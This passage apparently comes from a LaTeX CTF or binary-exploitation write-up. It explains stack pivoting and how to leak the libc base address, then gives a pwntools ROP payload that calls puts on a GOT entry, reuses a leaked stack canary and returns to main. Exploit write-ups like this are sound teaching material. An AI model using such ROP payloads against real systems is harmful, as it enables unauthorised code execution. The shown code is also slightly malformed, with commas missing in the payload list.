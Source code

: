     \paragraph{Stack Pivoting}

    When we don't have enough space for the rop chain we can perform an attack called stack pivoting, it consist in manipulating the stack to enlarge the stack that we have available. \newline
    Basically we fake the rsp register to  enlarge the stack, there are many ways to perform a stack pivoting, we will find out my version later.\newline
    \paragraph{Leak the Libc base}
    To leak the base address of libc we will perform a puts of an got fuction address and after the leak, we will calculate the base of the libc doing :\newline
    \begin{verbatim}
        base Libc = address function with ASLR - fuction address
        with out ASLR  
    \end{verbatim}
    Follow the exploit code.\newline.
    \begin{verbatim}
                
        pop_rdi=0x4012fb
        puts1=0x84420      
        payload2=flat(
             p64(pop_rdi),
             p64(exe.got.puts)
             p64(exe.sym.puts)
             p64(0x00401292), 
             p64(exe.sym.main),
             b'A'*16,
             p64(real_canary), 
             p64(target_bp), 
        )
        io.sendafter(b">", payload2)
    \end{verbatim}
        
